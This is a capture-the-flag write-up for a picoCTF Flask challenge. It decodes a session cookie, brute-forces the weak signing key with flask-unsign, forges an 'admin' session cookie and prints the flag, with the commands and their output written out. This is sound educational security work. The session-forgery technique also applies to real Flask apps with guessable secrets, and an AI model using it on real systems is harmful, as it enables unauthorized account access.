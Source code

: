 ## Inspiration
Realizing that we must typing a string in `cookie_names`:
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter",
                "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop",
                "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie",
                "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```
to be redirected to `/display`:
```python
@app.route("/search", methods=["GET", "POST"])
def search():
    if "name" in request.form and request.form["name"] in cookie_names:
        resp = make_response(redirect("/display"))
        session["very_auth"] = request.form["name"]
        return resp
    else:
        message = "That doesn't appear to be a valid cookie."
        category = "danger"
        flash(message, category)
        resp = make_response(redirect("/"))
        session["very_auth"] = "blank"
        return resp
```
But we can't completely to see the flag if just typing them:
```python
@app.route("/display", methods=["GET"])
def flag():
    if session.get("very_auth"):
        check = session["very_auth"]
        if check == "admin":
            resp = make_response(render_template("flag.html", value=flag_value, title=title))
            return resp
        flash("That is a cookie! Not very special though...", "success")
        return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
    else:
        resp = make_response(redirect("/"))
        session["very_auth"] = "blank"
        return resp
```
Trying input `snickerdoodle` we gain this cookie `eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZXnj1w.9t7YTtM_-cE7c65aS0Qb3IsIwDg`
[flask's cookie](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)
![img.png](img.png)
Decode with `base64` the session data (first part) of cookie we gain that:
```
$ python3                 
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> base64.urlsafe_b64decode('eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0===')
b'{"very_auth":"snickerdoodle"}'
```
It's clear that we must to create a cookie with `{"very_auth":"admin"}` by ourselves, and the requirement is knowing the secret key.

## Solution
To find out the secret key, using [flask-unsign](https://pypi.org/project/flask-unsign/)
```
$ sudo pip install flask-unsign
```
Save the cookie of input `snickerdoodle` to `cookie.txt`
Decode the cookie:
```
$ flask-unsign --decode --cookie < cookie.txt 
{'very_auth': 'snickerdoodle'}                       
```
Find the secret key (`wordlist.txt` contain all `cookie_names`):
```
$ flask-unsign --unsign --cookie < cookie.txt --wordlist wordlist.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```
Then, generate our own cookie with secret key `peanut butter` with [this code](https://github.com/noraj/flask-session-cookie-manager)
```
$ flask_session_cookie_manager3.py encode -s 'peanut butter' -t "{'very_auth':'admin'}"
```
Output: `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZXnu3w.cSj_Be5BfJ0IaGsSyp6JB860jjY`

Put it in Burp Repeater:
![img_1.png](img_1.png)
Flag: `picoCTF{pwn_4ll_th3_cook1E5_478da04c}`
